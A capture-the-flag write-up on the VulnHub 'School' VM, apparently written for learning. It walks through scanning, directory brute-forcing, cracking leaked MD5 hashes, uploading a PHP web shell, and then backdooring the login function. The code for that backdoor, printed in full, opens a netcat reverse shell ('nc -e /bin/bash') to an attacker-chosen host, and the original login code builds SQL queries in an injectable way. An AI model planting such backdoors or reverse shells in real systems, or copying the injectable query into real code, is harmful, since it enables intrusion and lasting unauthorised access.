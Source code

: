 # School CTF Write Up
"School" is a vulnerable virtual machine from https://vulnhub.com. This write up goes over the security issues found in it and how they can be exploited.

## School CTF
Date: January 26, 2021

CTF Link: https://www.vulnhub.com/entry/school-1,613/

## Technical
 The vulnerable system's IP was 192.168.0.130. First I did a port scan of all 65,535 TCP ports. The system had ports 22, 23, and 80. Port 22 had OpenSSH 7.9p1 running. Port 23 had an unknown, telnet-like service prompting for a verification code. Port 80 had an Apache 2.4.38 web server. Both SSH and the web server revealed the operating system type, with SSH also revealing the exact version (Debian 10). This is an information disclosure vulnerability. I recommended that exact version numbers of software and OS name/version are removed from publicly accessible services. SSH was up to date and there were no publicly available exploits that would give access to the system. The telnet-like service could invite some kind of brute forcing of the verification code, but since I didn't know what format the code could be in I moved on the the web server.
 ![alt text](https://i.imgur.com/MyOJPWR.png "Port Scan")
 I opened my firefox web browser and made navigated to http://192.168.0.130/. The web server redirected to http://192.168.0.130/student_attendance/login.php, a login page. The page's file extension indicates this web server is using PHP. I tried a few credentials to see how the website would respond. "Username or password is incorrect" was returned with a few test password attempts. Next, I tried to find any hidden directories with the directory brute forcing tool "dirb" using the default directory list. The tool discovered a few files and directories including http://192.168.0.130/student_attendance/assets/, http://192.168.0.130/student_attendance/index.php, and http://192.168.0.130/student_attendance/database/. I browsed to the "database" directory, which contained a single file named "student_attendance_db.sql." This looked promising, so I downloaded the file. It contained an entire backup of the system's database. Included were two sets of credentials. One for a staff member, another for the site administrator. The passwords for both were MD5 hashed. I did a dictionary attack on both passwords using hashcat and the rockyou wordlist. The admin account's password was cracked with a password of "admin123". The other account wasn't cracked however. Using the admin credentials I logged in to the website. I had full control over the website's functionality including the ability to change grades, add and remove users, add and remove courses and subjects, and change passwords. 
 
![alt text](https://i.imgur.com/UqR8wgB.png "Admin Panel")

 This compromise was already serious enough, but I was looking to gain access to the underlying operating system. Interestingly, the application didn't handle missing or invalid HTTP GET and POST parameters very well. For example, leaving out the username key and value in a login attempt caused an error like this:
 ```
  Notice: Undefined variable: username in /var/www/html/student_attendance/admin_class.php on line 20
  ```
  This discloses filesystem information and information about the structure of the application itself. However it didn't seem to be anything worse than information disclosure. This behavior was true across the entire application. 
  

I looked through the HTML source code of the application. There was a reference to a file in the "uploads" directory that was marked important. Here is the comment: `/*background: url(assets/uploads/1612129440.png) !important*/`

This indicated there could be a file upload vulnerability somewhere on the site. But I hadn't seen a place to upload any files yet. I continued looking through the HTML source until I found yet another telling comment. The comment seemed to simply be disabling some functionality at this URL: `http://school/index.php?page=site_settings`
I hadn't seen this yet, so I browsed to the page. The page had a place to change the name of the system and a place to change some information about the system and to upload a file for an image on the home page. I tried to upload a PHP shell (specifically p0wny shell). No validation was done, so the file was stored in the uploads directory. I now had a shell on the system running as user "www-data." I wanted a way to get back on system if the "admin" decided to change the password to log in or the file upload was fixed. I also wanted to avoid having an entire new file on the PHP site (my current shell). www-data had write access to all the files on the site, so I decided to backdoor one of the PHP pages. The login page seemed ideal. I thought about making a backdoor password, but this would only allow me to access the site itself. If the file upload vulnerability was fixed I would be stuck. So I decided to make the login function execute a reverse bash shell if certain parameters were present in a POST request to the login form. The login function would check for the POST parameters "ip", "port", and "key." If these were present and the key was correct then the PHP script would execute a reverse shell to the specified IP and port. The key was set to a md5 hash of my system's MAC address, to keep others from using the backdoor if it was found. Below is the original and backdoored login function code. 

```
function login(){
                extract($_POST);
                $qry = $this->db->query("SELECT * FROM users where username = '".$username."' and password = '".md5($password)."' ");
                if($qry->num_rows > 0){
                        foreach ($qry->fetch_array() as $key => $value) {
                                if($key != 'passwors' && !is_numeric($key))
                                        $_SESSION['login_'.$key] = $value;
                        }
                                return 1;
                }else{
                        return 3;
                }
        }
```
```
function login(){
                extract($_POST);
                if (isset($ip) && isset($port)) {
                        if ($key === "4312f66ddce40884000e44df65f9f1db") {
                                system("nc -e /bin/bash ".$ip." ".$port. " &");
                                echo("OK");
                        }
                }
                $qry = $this->db->query("SELECT * FROM users where username = '".$username."' and password = '".md5($password)."' ");
                if($qry->num_rows > 0){
                        foreach ($qry->fetch_array() as $key => $value) {
                                if($key != 'passwors' && !is_numeric($key))
                                        $_SESSION['login_'.$key] = $value;
                        }
                                return 1;
                }else{
                        return 3;
                }
        }
```

